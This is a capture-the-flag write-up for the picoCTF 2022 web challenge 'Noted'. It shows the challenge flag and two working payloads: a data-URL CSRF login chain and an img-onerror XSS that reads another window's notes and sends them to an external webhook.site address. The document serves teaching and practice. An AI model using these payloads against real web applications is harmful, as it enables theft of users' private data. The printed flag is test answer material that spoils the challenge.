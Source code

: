   # picoCTF2022: Noted

![Contest Date: 15.03.2022](https://img.shields.io/badge/Contest%20Date-15.03.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Score: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.




## Attached Files

- noted.tar.gz

## Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Detailed Solution

After looking at the source, it seems that this is a website that allows to create an account, login, and create notes. The notes seem to be private, and only visible to the logged in user, and are not accessible through some URL. Looking at some past challenges and writeups that dealed with Notes. After searching online for these type of past challenges, we can get some results such as [TBDXSS](https://ctftime.org/task/17592) and [XSS On Other Domain](https://www.youtube.com/watch?v=9ecv6ILXrZo). Now we need to first see if our website is vurlnerable to XSS, so we can put in a sample test payload such as 
```js
  <script>alert(1)<script>
```
We see that this website is vurlnerable to XSS. The latter video seems especially helpful, because we want to craft a payload to get the flag on another domain. So now let's try to reiterate on what we exactly want to do. We want some payload, which our bot will run to steal it's notes which will contain the flag. However, we need to make the bot run this directly. One ideal plan would be to create a temporary account, and put the XSS Payload that will print the contents of a window of the bot, which will have the flag. And then from the Report function we first open a window which we can later use to read the contents of the bots notes, and getthe flag. Then we can open a window which we can then login to the temporary account we created, and access the notes of the temporary account which will run our payload, and send the flag through a webhook. Now implementing this, we get

```html
data:text/html,<form action="http://0.0.0.0:8080/login" method=POST id=l target=_blank>
<input type="text" name="username" value="t"><input type="text" name="password" value="t">
</form><iframe id=c name=b></iframe><iframe id=d></iframe><script>window.open('http://0.0.0.0:8080/notes%27,'n');setTimeout(`l.submit()`,1000);setTimeout(`window.location='http://0.0.0.0:8080/notes?zz'`,1500)</script>
```
We will use this in our report function.

```html
<img src=x onerror="if(window.location.search.includes('zz'))window.location='https://webhook.site/bc465fa8-238e-4b8b-b771-4fa454413bf5/'+window.open('', 'n').document.body.textContent">
```

We will put this in the notes of our temporary account.

Now trying this out we get this in our webhook, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-04%20at%207.43.03%20PM.png)</p>

Now URL Decoding this we get our flag :D, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-04%20at%207.45.11%20PM.png)</p>
